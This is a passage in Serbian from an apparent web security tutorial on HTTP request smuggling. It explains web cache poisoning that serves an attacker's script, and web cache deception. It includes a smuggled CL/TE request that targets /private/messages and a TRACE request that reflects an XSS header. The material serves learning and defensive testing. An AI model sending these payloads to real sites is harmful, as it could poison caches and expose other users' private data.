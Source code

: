 Nakon uspešnog **trovanja soketa**, treba pokrenuti **GET zahtev** za `/static/include.js`. Ovaj zahtev će biti kontaminiran prethodnim zahtevom **unutrašnja preusmerenja na otvorena preusmerenja** i dohvatiti sadržaj skripte kojom upravlja napadač.

Nakon toga, svaki zahtev za `/static/include.js` će poslužiti keširani sadržaj skripte napadača, efikasno pokrećući širok XSS napad.

### Korišćenje HTTP zahteva za krijumčarenje kako bi se izvršila prevara veb keša <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **Koja je razlika između trovanja veb keša i prevare veb keša?**
>
> * U **trovanju veb keša**, napadač uzrokuje da aplikacija sačuva zlonamerni sadržaj u kešu, a ovaj sadržaj se servira iz keša drugim korisnicima aplikacije.
> * U **prevari veb keša**, napadač uzrokuje da aplikacija sačuva neki osetljiv sadržaj koji pripada drugom korisniku u kešu, a zatim napadač preuzima taj sadržaj iz keša.

Napadač oblikuje krijumčareni zahtev koji dohvaća osetljiv sadržaj specifičan za korisnika. Razmotrite sledeći primer:

```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```

Ako ovaj prokrijumčaren zahtev otrovi keš zapis namenjen statičkom sadržaju (npr. `/someimage.png`), osetljivi podaci žrtve iz `/private/messages` mogu biti keširani pod keš zapisom statičkog sadržaja. Kao rezultat, napadač bi potencijalno mogao povratiti ove keširane osetljive podatke.

### Zloupotreba TRACE putem HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**U ovom postu**](https://portswigger.net/research/trace-desync-attack) se sugeriše da ako je server omogućio metodu TRACE, moguće je zloupotrebiti je sa HTTP Request Smuggling-om. Ovo je zato što će ova metoda odražavati bilo koji zaglavlje poslato serveru kao deo tela odgovora. Na primer:

```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```

Poslaćemo odgovor poput:

```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```
